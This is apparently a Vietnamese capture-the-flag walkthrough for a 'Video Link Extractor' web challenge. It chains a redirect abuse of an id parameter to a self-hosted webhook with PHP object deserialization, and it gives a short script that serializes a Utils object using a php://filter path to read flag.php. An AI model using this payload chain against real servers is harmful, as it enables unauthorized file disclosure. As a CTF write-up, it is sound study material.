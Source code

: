 # Video Link Extractor
+ Khi thực hiện extract localhost trang web thực hiện đoạn code:
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/96d5c64e-0dd3-4e96-a5d0-9af5e56a98dc)
+ Ta có thể lợi dụng tham số id để gọi đến `redirect ` và khiến nó truy cập vào trang web khác 
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/79b9f246-6418-4b22-b75b-17be148af615)
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/c5e03245-27eb-4c41-827c-0e5d7721603f)
+ Đã thực hiện get vào trang web của mình
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/f61766f4-0e69-4551-8981-a7055e0447ea)

Untrusted data sẽ là response ta trả về, khi đó nó được unserialize  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/d7d50fe9-c81c-4c3c-90e7-94338d6498a5)
Thêm vào đó object Utils khi __wakeup sẽ gọi $this->_file  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/fd5ebec4-0a91-4d57-be85-c6bd1333cbe8)
Script tạo serialize data:
```
<?php 
class Utils {
    public $_file = "php://filter/convert.base64-encode/resource=flag.php";
};
echo(serialize(new Utils()));
?>
```
Thay kết quả của script vào response của webhook   
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/3c8e2fb8-eea4-4e69-8fa1-cc04a4516059)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/241fcbd6-4164-4401-ad53-41fd4d5bbce0)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/7620d7ab-7190-40f5-adc3-e5b2120a418f)
